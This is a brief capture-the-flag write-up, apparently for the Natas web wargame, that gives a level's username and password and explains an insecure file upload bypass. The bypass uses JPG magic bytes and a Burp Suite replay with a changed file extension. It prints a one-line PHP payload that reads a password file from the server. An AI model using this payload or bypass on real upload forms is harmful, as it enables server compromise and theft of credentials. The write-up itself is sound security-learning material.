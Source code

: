 # Username
natas14
# Password
z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
# Web vulnerability
Insecure file upload, client-side filter bypass
# Method of solve
Upload a file which includes the magic bytes for the jpg file type, and include malicious PHP code. Record it in Burpsuite, then replay the request, modifying the file extension.
```
<?php echo file_get_contents("/etc/natas_webpass/natas14"); ?>
```
